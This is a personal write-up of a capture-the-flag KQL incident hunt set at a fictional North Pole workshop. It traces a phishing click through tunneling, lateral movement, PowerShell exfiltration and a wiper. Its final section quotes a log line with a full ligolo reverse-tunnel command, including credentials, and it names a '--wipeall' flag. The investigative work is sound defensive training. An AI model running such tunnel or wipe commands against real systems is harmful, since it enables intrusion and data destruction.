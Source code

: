 ```yaml
---
description: >-
  Tools/Skills: KQL, Incident Investigation, Log Analysis, Decoding
  Base64-Encoded Powershell Commands
---
```


# KQL Kraken Hunt

## SYNOPSIS

An alert is generated that a malicious link was clicked on by an employee.

I found the email with the malicious link & documented the sender and receiver of the email. I then identitified the victim's role, hostname and ip address. From there, I was able to find the log showing the victim had clicked on the link, when he clicked on it, and then found a file that was subsequently downloaded on his computer. From there, I found that the attacker had created a remote tunnel, then performed a search on network shares. The attacker later exploited a network share to perform lateral movement within the system. After the lateral movement, the attacker performed 3 base64-encoded powershell commands. I decoded these commands and found that the attacker transfered a file out of the system and then deleted the file from the current system.

While this challenge did not go into escalation of events, at this point, if not before, I would be escalating the alert according to a company's playbook.

## SOLUTION & PROCESS

### ONBOARDING

1.  How many Craftperson Elf's are working from laptops?

    **QUERIES:**

    <img src="https://lh7-us.googleusercontent.com/MvbJxM40woFA4Se7p9tWOQm2HNwGU0VDQgfe9utIKP6vvsa2OT6JWrKqioJ1WYPsKbX-Kxi_1b5EWLB025D5RpRtfHJ53VGOeU51G-qtcqW5Ki4NSh1GU9ieXOZO4duxXdgoBWErkX3D-8miDltErz4" alt="" data-size="original">

    **ANSWER:**&#x20;

    <mark style="background-color:green;">25</mark>

### CASE 1

Track down who sent and who received the malicious link, as well as the subject link of the email with the malicious link: '[http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx](http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx)'

#### QUERIES

<figure><img src="https://lh7-us.googleusercontent.com/a5N2k43-CJEp9TZhSDyg4Nx4P4ZqA2Bli0qw_e5X1ca-9gGXB_fnM3zBxDpKOpOEDap0BgaEHeXFVR5oOaCYFaoZ_0LYuk93scdGDoXYI-wUTXEdW77rhHnlMTS-j6yoZ8DQcDVOwerJD3vxgOk_gIM" alt=""><figcaption></figcaption></figure>

#### RESULT

<figure><img src="https://lh7-us.googleusercontent.com/TEWx2TyqxROsCjFM5rLVDceggA-v58xdnk75d9f88OAKCiBLYEhlxGcil-AUbJcfJZyyzZitePm2umcJCDeZje69-uqWagS4uheLhfWUTILchGTo_0y2D7CxT1hSk_EuFKCZOz0WUmWilR8QeuL1rFA" alt=""><figcaption></figcaption></figure>

<mark style="background-color:green;">SENT:</mark> cwombley@gmail.com

<mark style="background-color:green;">RECEIVED:</mark> alabaster\_snowball@santaworkshopgeeseislands.org

<mark style="background-color:green;">SUBJECT LINE:</mark> “\[EXTERNAL] Invoice foir reindeer food past due”

### CASE 2

Find the role, hostname and ip address of the victim.

#### QUERIES:

<figure><img src="https://lh7-us.googleusercontent.com/RYidirBYNrKLo6o40HKkaufZiA4n2ji3zKezkTp7u8M1HVyEtoBI-4BvjDScxEph46J1iNnGrzoj4iAnE3qPH14tttsqmn0cnkqwwUWxZLUCoRt8B6z3NmU1U1lAgEn3Hm77d1We8J25955fe0XUcYc" alt=""><figcaption></figcaption></figure>

#### RESULT:

<figure><img src="https://lh7-us.googleusercontent.com/3Y4irJPGmPvzKY2PccMde4Nyh3TGslugW77Y1DDS_fOj2-nqsyvutvZpaFSOq0Gl42M8OZ-Nlg71Roz1T5Iy7f7ycN2aF6jrzpwxNY_T_FY5kMFdseMNf8ScTMNhPSi4NxXbu2az-hiZAefocI_j8W4" alt=""><figcaption></figcaption></figure>

<mark style="background-color:green;">IP ADDRESS:</mark> 10.10.0.4

<mark style="background-color:green;">ROLE:</mark> Head Elf

<mark style="background-color:green;">HOSTNAME:</mark> Y1US-DESKTOP

### CASE 3

What time did the victim click on the link? Were any files downloaded after he clicked on it?

#### **QUERY 1 (time):**

<figure><img src="https://lh7-us.googleusercontent.com/vjQBuf1AzOctN15_B3oylkiBAH3_onFBlmdKTyKgffISnb3xBUuCo7b97LdE84Exj91KpBBGEgeMtZ2_5bD6u8myMsLlnft-kupBNJAIdTHrdUL4vAgGRT7V-0-mzJRZ6CXWHo78G4PR4pwz6vwYetc" alt=""><figcaption></figcaption></figure>

#### RESULT 1 (time):

<figure><img src="https://lh7-us.googleusercontent.com/PuHI9oixhptbV5-p8QJddSSYdnlMxvt1vo02Z3a06cHAk7ZTRddCIgLyT6L2_FNdaO_pmfGZto-EfOmfVF8_bGb1FsXFaz8Irkr-ZGcRkEYWTf5aKVCVagIeIFwMIJkUCfNnkeJWBJS_K5b-ZD2S2cw" alt=""><figcaption></figcaption></figure>

#### QUERY 2 (downloaded file):

![](https://lh7-us.googleusercontent.com/lRyC6YQ28kU\_pR5nCbn92Fqkuf8GWlyEG5s6imvz\_UOfPsm1xdLBTDzl7Xu0tuykkynOun1tLwwC3oukJcIEqyCJi6EMKUDDL4h3TYRKsXEd8D9KOtO3XCgalEEa1ZS\_VtcVI4il4cozLrD0ZD4Ajyc)

#### RESULT 2 (downloaded file):

<figure><img src="https://lh7-us.googleusercontent.com/i2eMprbbxh1QBb2an7Ne2UfpfVZkAcUYnZUN7Zw4sbRrhOyxnn0ZvrqQIvESit-hKqayao60YeqK9MwELjJJPUjJLFzSiPMna_CIYrguPIHA8O3OGzXOumOeEYTFes2wz3DRyx-lHzmT-tBhO0nRb-0" alt=""><figcaption></figcaption></figure>

<mark style="background-color:green;">TIME (OF CLICK):</mark> 2023-12-02 10:12:42.0000

<mark style="background-color:green;">DOWNLOADED FILE NAME:</mark> giftwrap.exe

### CASE 4

Where did the attacker create a remote tunnel to? When did the attacker enumerate network shares? What hostname did the attack perform lateral movement to get to?

#### Endpoint IP Address from a created Remote Tunnel

#### QUERY

![](https://lh7-us.googleusercontent.com/XVTPmDsMIZEp--ItJ67Fq8\_lDYxkm1jJFZFDYSEfPKS4VH9sEG0vP4kJMd4Qn1eEjM0D9y20XW9igJOstKdr56IzBMQy54zAxKxyHauurHnQYLvV7UgxQ8oQm7DjfcgT5EvUy8hANf4AF1PUw5mXeYs)

#### RESULT:

<figure><img src="https://lh7-us.googleusercontent.com/13na8qbqYkdYLu8903nbmkt5NsLFbw1u5T4GeWbV0T7JWvmpFUVWyW39yFKuoHTGh22vtBCWtBhp9uuFBie4Qp2ncvzQc8BY2Hcu6jfKweDo76UDjX80Nmfb3kHuDsl_XklbYyU6F542kfH1l6iRl_k" alt=""><figcaption></figcaption></figure>

<mark style="background-color:green;">REMOTE TUNNEL IP ADDRESS:</mark> 113.37.9.17

### Time & Hostname

#### QUERY:

![](https://lh7-us.googleusercontent.com/79ZbEpZXt87wTw0uRpiB1OL\_phy2GliL5CgLDTtpqiKxMfFDhn2qazIUfvDU-t0PBbKf2uEl9ngDCn9A6T8natskto503FD1geuQh4YsaKyv0KZwIYZxwDnyilKpAE\_wcPw8vNS-f-F1rP9\_qLfM0NM)

#### RESULT 1 (TIME when attacker enumerated network shares):

<figure><img src="https://lh7-us.googleusercontent.com/utX1fUCATCO1biW6B0EuUWje_NzTER932a0u41DC_I8gR3D-OdP7__DZk1Z9PYGlBkI2BIT7yEbwO_fq7bM4rqilI82rjiEIQDc0BG09ryaHF1DV6qsq2tKmdnTD87_gNppuY-tQBO-2R1kSnt-jSzw" alt=""><figcaption></figcaption></figure>

#### RESULT 2 (Hostname of lateral movement)

<figure><img src="https://lh7-us.googleusercontent.com/uLdRc2VE2m4hC8LNxvb4xW_IfL_GPmfwb36Xn6reOhujuxcmN-1koCRn3DSn2sXZD-oRcCJuzrfpb-f-EroyYY7usaC77uAWSDyDkLDj2a7E48PjywxaekzbluIFVTJoNo7ij25o1ATEbBxJCh3q6HM" alt=""><figcaption></figcaption></figure>

<mark style="background-color:green;">TIME (OF ENUMERATED NETWORK SHARES):</mark> 2023-12-02T16:51:44Z

<mark style="background-color:green;">HOSTNAME (OF LATERAL MOVEMENT):</mark> NorthPolefileshare\


### CASE 5

Find base64 encoded powershell commands and find the name of the file that was transferred and to where.

#### QUERY

<div align="left">

<figure><img src="https://lh7-us.googleusercontent.com/vLnmuC-nBhxoltH41WizoiRsYpbt2IpUgNIzEkO34KEuGHs6XZQUS6DlLpYLLKv84uMe8snT_QziHpl8wmeSAFjNWPNBe1uVsFuoTy10nV6QVQwFkMyupxSh5lvpk15HmyoQXnAtrDNb8XeSqzkH67o" alt=""><figcaption></figcaption></figure>

</div>

#### RESULT

<figure><img src="https://lh7-us.googleusercontent.com/Qh-bkx5hVYtRvROknWUM_UB4SBXF1omukoWjbaWl3Kz-mZ6ul9bOlgs-cC5iKrLte55RmaMy3oR5w-0vuyLBtzHHZGztGneovIuwE-KVO3s-4J2-MyxUDLE-4n_bn2jfwniIv7qqf901B32rj77xC9w" alt=""><figcaption></figcaption></figure>

#### FURTHER STEPS&#x20;

1. I decoded the four, actually 3, base64 encoded texts in Powershell.&#x20;

<figure><img src="https://lh7-us.googleusercontent.com/q1g_wAseK58O47_l_IVAy0iyyezy4DmKcvEP88tYjVhKdwWehMEpxlQgxm8zeZ4mx7rRTIeemWqGXRvFfIVzOxRdFAXyzN0-7PV1-hF6RgA1bLOAVzjC3GQRBVzmSldFnszPWlSuzLvETroDH5QZKDM" alt=""><figcaption></figcaption></figure>

2. One of the decoded messages was written in reverse, so I wrote it backwards, with some help from AI, discovering the file name.&#x20;
3. A 2nd “decoded” message was almost all numbers, which I thought was strange, so I sent it to chatgpt. ChatGPT found how it was encoded and decoded it, showing me the domain the file was sent to.

<mark style="background-color:green;">TIME (OF FIRST ATTACK):</mark> 2023-12-24T16:07:47Z&#x20;

\*NOTE:there was an encoded powershell command before this one, but it was a basic update, not indicative of an attack)

<mark style="background-color:green;">FILE TRANSFERRED:</mark> NaughtyNiceList.txt

<mark style="background-color:green;">DOMAIN (WHERE FILE WAS SENT):</mark> giftbox.com

### CASE 6

Determine executable and command flag

#### QUERY

\*I used the previous query.

#### RESULT

<figure><img src="https://lh7-us.googleusercontent.com/JdZkygDuCblavsOhMKjahEV4S40jsp7rmSXSpIJ3xOmAgKysEiMABSzIq0wDWbHx9mbYsfTpi-U_RzQsAsut7PEtchqVtfD3vpBzx36TKayZe2oa9ZHmBfOTGsP0hz_4yuNFbG3eQjjjbhD_snlPlqw" alt=""><figcaption></figcaption></figure>

<mark style="background-color:green;">EXECUTABLE:</mark> downwithsanta.exe

<mark style="background-color:green;">COMMAND FLAG</mark>: --wipeall



***

## [ChatGPT Prompts/Answers](https://chat.openai.com/share/94431fef-ea99-4e63-a282-69e523da68f7)

#### Example Prompts:

* What signs would there be that a reverse tunnel connection with a compromised machine is made? Where would I find the IP the connection forwarded to? (Using KQL)
* What is the timestamp when the attackers enumerated network shares on the machine?
* What process names would be indicative of this?
*   Is this a reverse tunnel connection?

    "timestamp": 2023-12-02T11:11:29Z,

    "parent\_process\_name": cmd.exe,

    "parent\_process\_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,

    "process\_commandline": "ligolo" --bind 0.0.0.0:1251 --forward 127.0.0.1:3389 --to 113.37.9.17:22 --username rednose --password falalalala --no-antispoof,

    "process\_name": ligolo,

    "process\_hash": e9b34c42e29a349620a1490574b87865cc1571f65aa376b928701a034e6b3533,

    "hostname": Y1US-DESKTOP,

    "username": alsnowball
